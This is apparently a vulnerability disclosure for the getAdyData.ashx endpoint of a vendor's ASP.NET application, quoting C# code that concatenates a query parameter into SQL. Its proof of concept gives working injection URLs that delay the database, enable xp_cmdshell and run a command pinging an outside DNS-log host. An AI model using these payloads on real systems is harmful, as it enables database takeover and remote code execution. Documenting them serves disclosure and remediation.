 ![image-20250225201120831](./assets/image-20250225201120831.png)

# Vulnerability Report
## Vendor Homepage
http://www.zzskzy.com/

## Title: Arbitrary Code Execution In getAdyData.ashx

### Summary:
The code in the `ProcessRequest` method of the application lacks proper input validation, allowing for SQL Injection attacks which can lead to Remote Code Execution.

### Affected Endpoint:
URI: `/getAdyData.ashx`

### Vulnerability Type:
SQL Injection leading to Remote Code Execution

### Vulnerable Code:
```c#
public void ProcessRequest(HttpContext context)
{
    context.Response.ContentType = "text/plain";
    //sk_peisong_yxt_cardinfo
    var jsonResult = new JsonStr();
    try
    {
        var KeyValue = context.Request.QueryString;
        if (KeyValue.Count == 0)
        {
            jsonResult.Msg_code = ReturnCode.paramater_none;
            jsonResult.Msg_info = "无参数";
        }
        else
        {
            try
            {
                var showid = "";
                var parameter = new SqlParameter[KeyValue.Count - 1];
                int n = 0;
                var logRequestStr = "";
                foreach (string ky in KeyValue.Keys)
                {
                    if ("showid".CompareTo(ky.ToLower()) == 0)
                    {
                        showid = KeyValue[ky];
                    }
                    else
                    {
                        logRequestStr += ky + "=" + KeyValue[ky] + "&";
                        parameter[n++] = new SqlParameter("@" + ky, KeyValue[ky]);
                    }
                }
                Log.Debug("自定义报表，数据：" + showid + " 参数", logRequestStr.Substring(0, logRequestStr.Length - 1));

                var sql = new SqlRun.DBAccess(SqlRun.DBAccess.sqlstr);
                var sqlStr = sql.RunTSqlScalar("SELECT  [TSql]  FROM [MAutoTableShowControl] WHERE ID='" + showid + "'").ToString();
                var dt = sql.RunSQLDR(sqlStr, parameter);
                var keys = dt.Columns.Cast<DataColumn>().Select(d => d.ColumnName.Split('《')[0]).ToArray();
                var keyStr = "SELECT fdname,chnname FROM FLDLIST WHERE fdname in('" + string.Join("','", keys) + "')";

                var dtKey = sql.RunProcedureDR(keyStr);
                var ds = new DataSet();
                ds.Tables.Add(dt);
                ds.Tables.Add(dtKey);
                jsonResult.Msg_code = ReturnCode.pass;
                jsonResult.Msg_info = JsonToAndToJson.ToJson(ds);
            }
```

### Proof of Concept (PoC):
1. Time-based SQL Injection:
```
https://uri/getAdyData.ashx?showid=1';WAITFOR DELAY '0:0:10'--
```

2. Enabling `xp_cmdshell`:
```
https://uri/getAdyData.ashx?showid=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
```

3. Executing arbitrary command:
```
https://uri/getAdyData.ashx?showid=1';exec master..xp_cmdshell 'ping cc4f7d84.log.dnslog.myfw.us.'--
```

![image-20250225205111320](./assets/image-20250225205111320.png)

### Impact:

An attacker can exploit these SQL Injection vulnerabilities to execute arbitrary SQL commands on the database server, potentially leading to Remote Code Execution and unauthorized access to sensitive information.

### Recommendation:
1. Implement input validation and parameterized queries to prevent SQL Injection attacks.
2. Avoid concatenating SQL queries with user input directly.
3. Regularly update and patch the application to prevent security vulnerabilities.

### Conclusion:
The identified SQL Injection vulnerabilities in the `ProcessRequest` method pose a significant security risk and should be addressed promptly to prevent potential exploitation by malicious actors.

### References:
- OWASP SQL Injection: https://owasp.org/www-community/attacks/SQL_Injection

